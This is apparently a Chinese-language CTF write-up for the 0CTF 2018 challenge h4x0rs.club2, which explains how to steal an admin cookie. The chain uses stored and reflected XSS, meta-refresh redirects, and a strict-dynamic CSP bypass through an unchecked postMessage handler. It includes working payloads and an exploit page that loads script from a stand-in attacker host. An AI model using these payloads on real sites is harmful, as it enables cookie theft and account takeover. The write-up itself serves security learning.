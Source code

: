 ```yaml
---
title: TCTF/0CTF2018 h4xors.club2 Writeup
date: 2018-04-10 01:40:19
tags:
- postMessage
- xss
- CSP
---
```


本来早就该完成的club2 wp因为清明节的关系拖了一段时间，club2这个题目用了一很精巧的postMessage漏洞。

<!--more-->



# h4xors.club2 #

一个非常有意思的题目，做这题的时候有一点儿钻牛角尖了，后面想来有挺多有意思的点。先分享一个非常秀的非预期解wp。

[http://www.wupco.cn/?p=4408&from=timeline](http://www.wupco.cn/?p=4408&from=timeline)

在分享一个写的比较详细的正解

[https://gist.github.com/paul-axe/869919d4f2ea84dea4bf57e48dda82ed](https://gist.github.com/paul-axe/869919d4f2ea84dea4bf57e48dda82ed)

下面顺着思路一起来看看这题。

```
Get document .cookie of the administartor.
h4x0rs.club
backend_www got backup at /var/www/html.tar.gz   这个从头到尾都没找到

Hint: Get open-redirect first, lead admin to the w0rld!
```

站内差不多是一个答题站点，用了比较多的第三方库，站内的功能比较有限。

1、profile.php可以修改自己个人信息
2、user.php/{id}可以访问自己的个人信息
3、report.php没什么可说的，向后台发送请求，需要注意的是，直接发送user.php，不能控制
4、index.php接受msg参数

还有一些特别的点

1、user.php页面的CSP为

```
Content-Security-Policy:default-src 'none'; img-src * data: ; script-src 'nonce-c8ebe81fcdccc3ac7833372f4a91fb90'; style-src 'self' 'unsafe-inline' fonts.googleapis.com; font-src 'self' fonts.gstatic.com; frame-src https://www.google.com/recaptcha/;
```

非常严格，只允许nonce CSP的script解析

index.php页面的CSP为
```
Content-Security-Policy:script-src 'nonce-120bad5af0beb6b93aab418bead3d9ab' 'strict-dynamic';
```

允许sd CSP动态执行script（这里的出发点可能是index.php是加载游戏的地方，为了适应CSP，必须加入`strict-dynamic`。）

2、站内有两个xss点

第一个是user.php的profile，储存型xss，没有任何过滤。

第二个是index.php的msg参数，反射性xss，没有任何过滤，但是受限于xss auditor


顺着思路向下

因为user.php页面的CSP非常严格，我们需要跳出这个严格的地方，于是可以通过插入meta标签，跳转到index.php，在这里进一步操作
```
<meta http-equiv="refresh" content="5;https://h4x0rs.club/game/?msg=Welcome">
```

当然这里我们也可以利用储存型xss和页面内的一段js来构造a标签跳转。

在user.php的查看profile页面，我们可以看到
```
if(location.hash.slice(1) == 'report'){
    document.getElementById('report-btn').click();
}
```

当我们插入
```
<a href='//xxx.xx/evil.html' id=report-btn>
```

并请求
```
/game/user.php/ddog%23report
```

那么这里的a标签就会被点击，同样可以实现跳转。



接着我们探究index.php，这里我们的目标就是怎么能够绕过sd CSP了，当时的第一个想法是`<base>`，通过修改当前页面的根域，我们可以加载其他域的js（听起来很棒！

可惜如果我们请求
```
https://h4x0rs.club/game/?msg=<base href="http://xxxx">
```

会被xss auditor拦截，最后面没办法加`/">`，一个非常有趣的情况出现了

```
https://h4x0rs.club/game/?msg=%3Cbase%20href=%22http://115.28.78.16
```

![image.png-7.8kB][4]

最后的`</h1>`中的`/`被转换成了路径，前面的左尖括号被拼入了域名中，后面的右尖括号闭合标签...一波神奇的操作...

不过这里因为没法处理尖括号域名的事情，所以置于后话不谈。

我们继续讨论绕过sd CSP的思路，这种CSP已知只有一种办法，就是通过现在已有的js代码构造xss，这是一种在去年blackhat大会上google团队公布的CSP Bypass技巧，叫做Script Gadgets。

[https://www.blackhat.com/docs/us-17/thursday/us-17-Lekies-Dont-Trust-The-DOM-Bypassing-XSS-Mitigations-Via-Script-Gadgets.pdf](https://www.blackhat.com/docs/us-17/thursday/us-17-Lekies-Dont-Trust-The-DOM-Bypassing-XSS-Mitigations-Via-Script-Gadgets.pdf)

这里的漏洞点和ppt中的思路不完全一致，但核心思路一样，都是要利用已有js代码中的一些点来构造利用。

站内关于游戏的代码在app.js中的最下面，加载了client.js
```
function load_clientjs(){
    var s = document.createElement('script');
    document.body.appendChild(s);
    s.defer = true;
    s.src = '/game/javascripts/client.js';
}
```

client.js中的代码不多，有一些值得注意的点，就是客户端是通过`postMessage`和服务端交互的。

![image.png-94.1kB][5]

而且所有的交互都没有对来源的校验，也就是可以接受任何域的请求。

**ps: 这是一个呆子不开口在2016年乌云峰会上提到的攻击手法，通过postMessage来伪造请求**

这样我们可以使用iframe标签来向beckend页面发送请求，通过这种方式来控制返回的消息。

这里我盗用了一张别的wp中的图，来更好的描述这种手法

原图来自[https://github.com/l4wio/CTF-challenges-by-me/tree/master/0ctf_quals-2018/h4x0rs.club](https://github.com/l4wio/CTF-challenges-by-me/tree/master/0ctf_quals-2018/h4x0rs.club)

![image.png-112.7kB][6]

这里我们的exploit.html充当了中间人的决赛，代替客户端向服务端发送请求，来获取想要的返回

这里我们可以关注一下client.js中的recvmsg

![image.png-323.9kB][7]

如果我们能控制data.title，通过这里的dom xss，我们可以成功的绕过index.php下的sd CSP限制。

值得注意的是，如果我们试图通过index.php页面的反射性xss来引入iframe标签的话，如果iframe标签中的链接是外域，会被xss auditor拦截。

所以这里需要用user.php的储存型xss跳出。这样利用链比较完整了。

下面是利用思路：

1、首先我们需要注册两个账号，这里使用ddog123和ddog321两个账号。

2、在ddog321账号中设置profile公开，并设置内容为

```
<meta http-equiv="refresh" content="0;https://evil_website.com">
```

3、在evil_website.com（这里有个很关键的tips，这里只能使用https站，否则会爆引入混合数据，阻止访问）的index.html向backend发送请求，这里的js需要设置ping和badges，在badges中设置title来引入js

```
<iframe name=game src='//backend.h4x0rs.club/backend_www/'></iframe>

<script>
window.addEventListener("message", receiveMessage, false);
var TOKEN,nonce;
function receiveMessage(event)
{
console.log("msg");
data = event.data;
if(data.cmd =='ping'){
    TOKEN = data.TOKEN;
    nonce = data.nonce;
    game.postMessage(data,"*");
}
if(data.cmd =='badges'){
    console.log('badges');
    console.log(data);
    TOKEN = data.TOKEN;
    data.level = 1;
    data.title = '\'"><script src="//evil_website.com/1.js" defer></scr'+'ipt>';
    console.log(data.title);
    // data.title = '\'"><meta http-equiv="set-cookie" content="HolidayGlaze=123;">';
    game.postMessage(data,"*");
}
}
```

4、在ddog123账户中设置profile为

```
<meta http-equiv="refresh" content="0;https://h4x0rs.club/game/?msg=1%3Ciframe%20name=game_server%20src=/game/user.php/ddog321%20%3E%3C/iframe%3E">
```

5、最后在1.js中加入利用代码，发送report给后台等待返回即可。




  [1]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/bz7gl9fs2q89pvezn6xm03xb/image.png
  [2]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/io54g5yal3om63po5w4e9qvn/image.png
  [3]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/4wljy4njhwsq583n1cpz8rvi/image.png
  [4]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/elpojcabch5pk77o79de6m12/image.png
  [5]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/fij89ai2u0ls69du1qkc7fl2/image.png
  [6]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/o0jxd89x9r60btxhsln4vum2/image.png
  [7]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/9xqbie6lw0xwoe6ooz0s2dsb/image.png
